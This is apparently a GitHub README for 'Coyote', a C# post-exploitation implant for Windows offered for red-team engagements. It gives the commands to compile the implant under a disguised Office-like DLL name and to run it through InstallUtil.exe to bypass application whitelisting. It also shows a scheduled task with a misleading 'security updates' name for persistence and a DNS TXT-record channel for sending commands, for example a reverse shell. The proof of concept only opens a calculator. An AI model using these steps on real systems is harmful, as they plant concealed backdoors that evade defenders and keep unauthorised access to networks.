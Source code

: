 # Coyote

Coyote is a standalone C# post-exploitation implant for maintaining access to compromised Windows infrastructure during red team engagements.

* Bypasses application whitelisting (eg AppLocker) using InstallUtil.exe (see [MITRE ATT&CK ID: T1218.004](https://attack.mitre.org/techniques/T1218/004/))
* Retrieves commands from operator via recursive DNS tunnel (see [MITRE ATT&CK ID: T1071.004](https://attack.mitre.org/techniques/T1071/004/))
* Small footprint in memory and on the network

The basic premise is for the red team to leave this tiny DLL behind on a compromised Windows system and have it occasionally poll the DNS TXT record of a legitimate looking FQDN to check for instructions. When needed, the TXT record can contain a simple powershell one liner to spawn an interactive reverse shell out to a VPS, or the first stage of something more sophisticated, as per the operator's requirements. Coyote is not used for interactive control of the compromised system, rather to maintain access and spawn some other tool (a reverse shell, meterpreter etc) as required.

### Usage

First of all edit the coyote.cs source file and set the c2domain variable to the subdomain you will be using for your TXT record.

To compile it on your own Windows box: 

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:msoffice360.dll coyote.cs`

This will create a small DLL file of approximately 5 KB called msoffice360.dll (use whatever filename you think will blend in on the target) which you will place on the target system.

To execute it once on the target workstation or server: 

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U msoffice360.dll`

For it to be useful, Coyote needs to get executed repeatedly at some interval such as every 24 hours or upon each reboot. There are many ways to achieve this. See [PayloadsAllTheThings - Windows Persistence](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md) for a long list of techniques and pick one.

One way that will serve as an example is to hide the DLL in a user's AppData folder and then simply create a new scheduled task:

`schtasks /CREATE /SC DAILY /TN "Microsoft Office security updates task" /TR "C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Olivia\AppData\Local\Microsoft\msoffice360.dll" /ST 08:00`

This means that every day at 0800 the built-in InstallUtil.exe will import and run the DLL's uninstall function, which will then do a recursive DNS lookup to check if a command is currently encoded in the TXT record, and if so execute it. This can hopefully remain undetected by the blue team until needed and act as a backup to any other methods being used to maintain remote access to the network.

To leave a command to be executed (generally this will be used to spawn an interactive reverse shell), base64 encode the exact string that you would have typed into the command line and place it in a TXT record on the subdomain that you set when you compiled the implant. Next time the implant calls home it will be executed.

### Proof-of-concept

We base64 encode the string calc.exe to get Y2FsYy5leGU=

We create a TXT record on our DNS server as follows:

`TXT	updates.tartaruslabs.com	Y2FsYy5leGU=`

This record is saved and from our laptop we then confirm it is active:

`user@laptop:~$ host -t txt updates.tartaruslabs.com`

`updates.tartaruslabs.com descriptive text "Y2FsYy5leGU="`

In coyote.cs we set the value of c2domain to "updates.tartaruslabs.com" and then compile it.

We execute the implant and sure enough calculator opens. 

![Coyote screenshot](https://github.com/TartarusLabs/Coyote/blob/main/screenshot.jpg?raw=true)

